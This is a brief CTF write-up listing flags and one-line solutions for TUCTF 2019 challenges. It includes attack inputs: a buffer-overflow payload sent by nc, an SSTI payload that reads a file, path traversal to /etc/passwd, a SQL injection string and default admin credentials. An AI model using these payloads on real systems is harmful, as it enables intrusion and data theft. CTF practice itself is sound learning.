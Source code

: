 ```yaml
---
layout: post
title:  "TUCTF 2019"
excerpt: CTF competition
tags: [ctf, challenges]
---
```



[https://tuctf.com/](https://tuctf.com/)
<br>
## completed challenges
**welcome**<br>
<pre>*welcome*
just needed to '.validate' on discord
![Alt text](../ctfs/tuctf2019/welcome.png)
TUCTF{W3lc0m3_70_TUCTF._H4v3_fun}</pre><br>

**misc**<br>
<pre>*red yarn*
strings DEBUG.COM | grep TUCTF
![Alt text](../ctfs/tuctf2019/misc1.png)
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}</pre><br>

misc - super secret
binwalk -e document.odt
cat _document.odt.extracted/Basic/Standard/flag.xml
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}

misc - onions
opened with 7zip 
several layers deep and found flag
TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}
**pwn**<br>
pwn - runme
strings runme | grep TUCTF
TUCTF{7h4nk5_f0r_c0mp371n6._H4v3_fun,_4nd_600d_luck}

pwn - thefirst
objdump -d ./thefirst
	080491f6 <printFlag>
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508
TUCTF{0n3_d0wn..._50_m4ny_70_60}
**crypto**<br>
crypto - common
https://medium.com/bugbountywriteup/rsa-attacks-common-modulus-7bdb34f331a5
TUCTF{Y0U_SH0ULDNT_R3US3_TH3_M0DULUS}

crypto - sonic
rot-cipher
TUCTF{W04H_DUD3_S0_F4ST_S0N1C_4PPR0V3S}

crypto - warren 
TUCTF{th4nks_f0r_d1n1ng_4641n_4t_th3_W4rr3n_buff3t}
**mega**<br>
mega - coffee
BREW /teapot
HTCPCP/1.0 418 I'm a teapot. Go to /broken.zip
https://tools.ietf.org/html/rfc2324
TUCTF{d0_y0u_cr4v3_th3_418}

mega - broken
strings broken.img | grep TUCTF
TUCTF{D1S4ST3R_R3C0V3RY}
**reversing**<br>
reversing - faker
gdb -q ./faker
	jump thisone
TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}
**web**<br>
web - open door
source code found flag
TUCTF{f1r5t_fl46_345135t_fl46} 

web - test test test
looked in imgs directory
todo.txt and flag.php files
pause requests on burp when selecting flag.php to reveal flag
TUCTF{d0nt_l34v3_y0ur_d1r3ct0ry_h4n61n6}
 
web - router where art thou
0.html - started off here with a form
1.html - tried this file and sonicwall login revealed
2.html - tried this file and palo login revealed
	admin:admin worked
TUCTF{y0u_f0und_th3_fun_r0ut3r_d3f4ult5}

web - and now for something completely different
found [SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#template-format)
http://chal.tuctf.com:30007/welcome/%7B%7B%20''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read()%20%7D%7D
TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}

web - cute animals
lfi found on portal.php
/./././././././././././etc/passwd
TUCTF{m0r3_cut3_4n1m415_c4n_b3_f0und_4t_https://bit.ly/1HU2m5Q}

web - robots
/robots.txt but need
User-Agent: Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
TUCTF{463nt_6006l3_r3p0rt1n6_4_r0b0t}

web - login to access
sql injection revealed actual login login.html 
' or '1' = '1  
but login.php.bak file was found to reveal flag
TUCTF{b4ckup5_0f_php?_1t5_m0r3_c0mm0n_th4n_y0u_th1nk} 
